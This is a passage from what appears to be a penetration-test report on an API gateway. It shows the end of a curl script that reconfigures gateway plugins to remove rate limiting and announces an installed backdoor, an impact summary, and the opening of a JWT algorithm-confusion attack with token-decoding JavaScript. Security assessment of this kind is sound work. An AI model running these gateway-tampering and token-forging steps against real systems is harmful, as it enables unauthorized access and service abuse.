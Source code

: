 ```bash
      ]
    }
  }'

# 4. Modify rate limiting to allow unlimited access
curl -X POST http://staging-api-gateway.internal:8001/plugins \
  -d '{
    "name": "rate-limiting",
    "config": {
      "minute": 999999,
      "policy": "local"
    }
  }'

echo "API Gateway compromised. Universal backdoor installed."
```

**Business Impact Validation:**
```
Complete API Gateway Compromise Results:
├── All API traffic controllable by attacker
├── Authentication bypass capability installed
├── Rate limiting disabled for attack traffic
├── All customer API keys and secrets accessible
├── Service-to-service communication interceptable

Financial and Operational Impact:
├── Complete platform compromise: $50M+ potential loss
├── All customer data at risk: 500,000+ user records
├── API service disruption capability
├── Regulatory violations: Multiple frameworks
├── Customer trust destruction: Irreversible damage
```

## 4. JWT Algorithm Confusion Attack

### 4.1 Authentication Bypass Exploitation (CVSS 8.1)

**Exploitation Scenario: "The Token Forger"**

**Phase 1: JWT Token Analysis**
```javascript
// Extract JWT token from legitimate authentication
const legitimateToken = "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ1c2VyXzEyMyIsInJvbGUiOiJ1c2VyIiwidGVuYW50X2lkIjoidGVuYW50X2EiLCJpYXQiOjE3MzM0NzIwMDAsImV4cCI6MTczMzQ3NTYwMH0.signature";

// Decode header and payload
const header = JSON.parse(atob("eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9"));
const payload = JSON.parse(atob("eyJzdWIiOiJ1c2VyXzEyMyIsInJvbGUiOiJ1c2VyIiwidGVuYW50X2lkIjoidGVuYW50X2EiLCJpYXQiOjE3MzM0NzIwMDAsImV4cCI6MTczMzQ3NTYwMH0"));

console.log("Current token claims:", payload);
// Output: {"sub":"user_123","role":"user","tenant_id":"tenant_a","iat":1733472000,"exp":1733475600}
```
